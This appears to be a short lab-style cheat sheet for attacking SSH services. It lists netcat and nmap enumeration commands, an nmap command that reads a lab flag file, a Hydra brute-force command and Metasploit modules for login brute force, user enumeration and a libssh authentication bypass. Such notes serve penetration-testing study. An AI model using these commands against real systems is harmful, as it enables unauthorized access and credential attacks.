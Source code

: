 
Fetch banner with netcat
```bash
nc $IP 22
```

Enumerate algorithms
```bash
nmap --script ssh2-enum-algos 192.201.39.3
```

Get host key
```bash
nmap --script ssh-hostkey --script-args ssh_hostkey=full $IP
```

Auth methods
```bash
nmap -p 22 --script ssh-auth-methods --script-args="ssh.user=student"`
```

```bash
22/tcp open  ssh
| ssh-auth-methods: 
|   Supported authentication methods: 
|     publickey
|_    password
```

Running commands via nmap:
```bash
nmap --script=ssh-run --script-args="ssh-run.cmd=cat /home/student/FLAG, ssh-run.username=student, ssh-run.password=" $IP
```
## Hydra Brute Force

```bash
hydra -L <wordlist> -P <password list> -t 4 $IP ssh
```

## metasploit

Brute force login
```bash
auxiliary/scanner/ssh/ssh_login
```

User enumeration
```bash
auxiliary/scanner/ssh/ssh_enumusers
```

Get shell on certain versions ssh v2
```bash
auxiliary/scanner/ssh/libssh_auth_bypass
```

